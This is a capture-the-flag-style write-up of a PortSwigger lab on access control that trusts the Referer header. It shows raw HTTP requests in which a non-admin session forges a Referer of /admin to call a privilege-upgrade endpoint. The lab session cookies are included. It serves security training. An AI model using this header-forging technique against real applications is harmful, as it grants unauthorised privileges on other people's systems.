 ## Lab Description :

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/f068d0fd-917f-4b17-9a95-6255eb94d112)

## Solution:

> Some websites **base access controls on the Referer header submitted in the HTTP reques**t. The Referer header is generally added to requests by browsers to indicate the page from which a request was initiated.
>
> For example, suppose an application robustly enforces access control over the main administrative page at **/admin**, but for sub-pages such as **/admin/deleteUser** only inspects the Referer header. If the 
> Referer 
> header contains the main **/admin** URL, **then the request is allowed**.
> 
> In this situation, since the Referer header can be fully controlled by an attacker, they can forge direct requests to sensitive sub-pages, supplying the required Referer header, and so gain unauthorized access. 

#### Login as admin -

First lets familiarize ourselves by loggin in as admin.

Clicking onm admin panel link after loggin in, takes us to this page where we can change privileges of a user.

When we upgrade carlos user privileges, the request sent is as follows,

```http
GET /admin-roles?username=carlos&action=upgrade HTTP/2
Host: 0a9f0016047a441d81097f3e003900e8.web-security-academy.net
Cookie: session=K7RG07YzVc1bZoX3UtsajKEb8WLuJHuf
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/113.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://0a9f0016047a441d81097f3e003900e8.web-security-academy.net/admin
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers
```

We can see that it has a **referrer header** which points to **/admin**.

## Login as wiener -

Our goal now is to upgrade ourselves

Grab the cookie value of wiener.

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/f3b2a7a1-0e41-43c4-9c81-58db4790dacf)

Cookie of admin -  `DskvtWBTUNj8vQkHvNwgWeJYcBJFgB9M`
Cookie of wiener - `YAAMI6aHIWowDUkZmG8TvjMnxSNZFKQy`

Send the request where the privileges were changed by admin but by replacing admin cookie with wiener's cookie (non-admin)

```http
GET /admin-roles?username=carlos&action=upgrade HTTP/2
Host: 0a9f0016047a441d81097f3e003900e8.web-security-academy.net
Cookie: session=UpJMZ73RL6uyS9uiPIO2x0xY7SKFJVdA
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/113.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://0a9f0016047a441d81097f3e003900e8.web-security-academy.net/admin
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers
```

But still we can't  as it shows only admin can perform this action,

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/abfc8f51-b694-484c-adb0-115355b3a600)


The focus of this lab is , if referrer based verification is made, then we can explioit it

#### Without /admin in referre header

We get `401 - Unauthorized`

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/d0221021-2283-46c2-9c87-fecd81d2283c)

#### With /admin in referrer header

We get `302 - redirect`

